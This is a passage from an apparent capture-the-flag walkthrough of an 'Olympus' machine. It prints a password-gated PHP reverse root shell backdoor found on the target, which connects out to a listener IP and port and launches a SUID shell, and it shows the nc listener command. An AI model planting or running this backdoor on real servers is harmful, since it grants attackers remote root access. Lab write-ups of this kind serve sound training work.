 {% highlight php linenos %}

<?php
$pass = "[REDACTED]";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>

{% endhighlight %}

I then route to the location of the weird **php** file following this path:

```
http://<$IP>/weird-folder/weird-file.php
```

![Untitled](/assets/Olympus%20images/Untitled%206.png)
